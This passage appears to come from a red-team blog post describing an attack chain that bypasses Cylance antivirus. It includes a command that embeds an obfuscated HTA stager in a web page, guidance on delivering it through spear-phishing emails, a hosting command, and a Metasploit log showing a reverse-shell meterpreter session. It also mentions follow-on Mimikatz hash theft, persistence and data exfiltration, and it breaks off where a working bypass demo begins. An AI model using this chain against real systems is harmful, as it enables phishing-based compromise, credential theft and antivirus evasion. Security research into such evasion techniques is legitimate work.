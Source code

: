 If you are feeling creative, this is the time to exploit that by modifying the template for the HTML page shown to the target.

Setting this up was relatively an easy task using:

```
./embedInHTML.py -k mysecretkey -f htastager_obfuscated.hta -m application/hta -o index.html
```

Great! Now all the target needs to do is visit this webpage hosted somewhere and click through a warning to run the HTA and that's all.

## Phase 3 of Kill Chain - Delivery
This is the step where you would host the malicious webpage to serve the HTA stager(created in the previous step) somewhere and send spear-phishing emails to the target with an appropriate target-specific lure with links to the webpage.

For the purposes of this blog-post, I am self-hosting it on my Linux box using:

```
python3 -m http.server 8000
```

Do not forget to start the _Metasploit exploit handler_ as well!

## Profit!!!
Now all the attacker needs to do is wait for the victim to visit the malicious webpage, click on "Run" in the dialogue prompt, click "Run" again through a security warning and wait for the final stage _meterpreter_ payload to be executed.

As soon as that happens, the attacker is granted with a very familiar and rewarding message displaying:

```hta
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8080 
[*] Sending stage (180291 bytes) to 192.168.1.100
[*] Meterpreter session 1 opened (192.168.1.104:8080 -> 192.168.1.100:50483) at 2020-04-22 20:03:35 +0530

meterpreter > 
```

Of course, now that the target machine is compromised they can perform all sorts of malicious activities like for example running the infamous _Mimikatz_ module to get NTLM hashes etc.

This stage is known as the **Post-Exploitation** phase where the attackers perform various actions on the target machine so as to accomplish their initial goal(s).

This may include installing other implants, achieving persistence so that the implant survives a reboot, confidential data exfiltration, keylogging, pivoting etc. among other things.

## A working demo of the bypass
Here is a working demo of the attack in question which is successfully able to evade Cylance Smart AV:
